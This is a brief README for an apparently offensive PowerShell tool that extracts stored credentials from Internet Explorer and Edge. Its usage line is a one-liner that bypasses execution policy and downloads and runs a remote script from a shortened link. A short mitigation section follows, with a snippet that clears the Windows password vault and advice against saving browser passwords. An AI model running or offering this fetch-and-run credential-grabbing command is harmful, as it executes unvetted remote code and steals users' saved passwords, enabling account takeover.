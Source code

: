# credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"

## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)

### Additionally Information
I was informed by @jaredhaight that this code was already used in the past. I Didn't know that, but i want to add the link to that post https://www.toddklindt.com/blog/_layouts/mobile/dispform.aspx?List=56f96349-3bb6-4087-94f4-7f95ff4ca81f&ID=606

